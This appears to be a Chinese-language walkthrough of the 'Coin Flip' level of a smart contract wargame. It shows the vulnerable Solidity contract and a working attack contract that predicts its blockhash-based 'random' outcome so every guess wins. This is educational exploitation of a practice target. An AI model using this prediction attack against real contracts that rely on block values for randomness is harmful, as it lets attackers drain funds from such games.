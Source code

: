 ### 第四关 Coin Flip
### 难度2/5
## 这一关的通关条件是连续10次赌赢硬币的结果。
## 代码如下：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
根据概率论，可以知道连续十次猜对true或者false的概率为P = (0.5)^{10}，即1/1024。这显然花光gas都不能连续十次猜对。但是在区块链上是没有真正意义的随机数的，所以这题的解题思路就是写一个攻击合约在每次调用flip()函数前就计算出side的值，这样就能每次都猜对了。
## 解题步骤：
1. 打开remix线上编辑器,新建攻击合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address levelInstance;

  constructor(address _levelInstance) {
      levelInstance = _levelInstance;
  }

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    if (side == true) {
        ICoinFlip(levelInstance).flip(true);
    } else {
        ICoinFlip(levelInstance).flip(false);
    }
  }
}
```
2. 连续调用10次，可以在控制台查看目前consecutiveWins的值：
```javascript
await contract.consecutiveWins()
```
3. 提交过关。
